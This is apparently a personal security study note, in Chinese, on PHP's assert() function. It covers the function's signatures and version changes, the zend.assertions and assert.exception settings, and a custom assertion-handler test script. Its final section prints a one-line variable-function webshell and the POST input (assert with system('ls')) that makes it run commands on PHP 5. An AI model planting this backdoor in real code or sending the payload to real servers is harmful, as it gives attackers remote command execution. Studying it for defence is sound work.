 # assert

**参考：**

- https://www.anquanke.com/post/id/173201#h2-1

**函数构造：**

```php
PHP5：
assert ( mixed $assertion [, string $description ] ) : bool
    
PHP7：
assert ( mixed $assertion [, Throwable $exception ] ) : bool
```



**更新日志：**

- PHP >= 5.4.8，description 可作为第四个参数提供给 ASSERT_CALLBACK 模式里的回调函数
- 在 PHP 5 中，参数 assertion 必须是可执行的字符串，或者运行结果为布尔值的表达式
- 在 PHP 7 中，参数 assertion 可以是任意表达式，并用其运算结果作为断言的依据
- 在 PHP 7 中，参数 exception 可以是个 [Throwable](https://www.php.net/manual/en/class.throwable.php) 对象，用于捕获表达式运行错误或断言结果为失败。(当然 [assert.exception](https://www.php.net/manual/zh/info.configuration.php#ini.assert.exception) 需开启)
- PHP >= 7.0.0，支持 `zend.assertions`、`assert.exception` 相关配置及其特性
- PHP >= 7.2 版本开始，参数 assertion 不再支持字符串



PHP7增加了断言的Expectations，提供了灵活的调试策略。另外提供了两组php.ini的配置。

| Directive                                                    | Default value | Possible values                                              |
| :----------------------------------------------------------- | :------------ | :----------------------------------------------------------- |
| [zend.assertions](https://www.php.net/manual/zh/ini.core.php#ini.zend.assertions) | *1*           | *1*: generate and execute code (development mode) *0*: generate code but jump around it at runtime               *-1*: do not generate code (production mode) |
| [assert.exception](https://www.php.net/manual/zh/info.configuration.php#ini.assert.exception) | *0*           | *1*: throw when the assertion fails, either by throwing the object provided as the `exception` or by throwing a new **AssertionError** object if `exception` wasn't provided                                              *0*: use or generate a **Throwable** as described above, but only generate a warning based on that object rather than throwing it (compatible with PHP 5 behaviour) |



## 自定义断言异常处理函数

**测试代码**

```php
<?php
// 激活断言，并设置它为 quiet
assert_options(ASSERT_ACTIVE, 1);
assert_options(ASSERT_WARNING, 0);
assert_options(ASSERT_QUIET_EVAL, 1);

//创建处理函数
function my_assert_handler($file, $line, $code)
{
    echo "<hr>Assertion Failed:
        File '$file'<br />
        Line '$line'<br />
        Code '$code'<br /><hr />";
}

// 设置回调函数
assert_options(ASSERT_CALLBACK, 'my_assert_handler');

// 让一则断言失败
$asse=2<1;
assert($asse);
?>
```

考虑到PHP7.2弃用将一个字符串参数当作assert()的参数。

![](/images/19-7-22_PHP_assert_自定义断言异常处理函数_1.png)

上述代码运行结果如下：

```txt
<hr>Assertion Failed:
        File 'C:\Users\j7ur8\Desktop\test2.php'<br />
        Line '21'<br />
        Code ''<br /><hr />
```

## 可变函数后门

**测试代码**

```php
<?php
$_POST['1']($_POST['2']
```

PHP5可传入`1=assert&2=system('ls')`来执行命令。PHP7中assert变成了一种语言结构，而不是一个函数。

> 可变函数不能用于例如 [echo](http://php.net/manual/zh/function.echo.php)，[print](http://php.net/manual/zh/function.print.php)，[unset()](http://php.net/manual/zh/function.unset.php)，[isset()](http://php.net/manual/zh/function.isset.php)，[empty()](http://php.net/manual/zh/function.empty.php)，[include](http://php.net/manual/zh/function.include.php)，[require](http://php.net/manual/zh/function.require.php) 以及类似的语言结构。需要使用自己的包装函数来将这些结构用作可变函数。

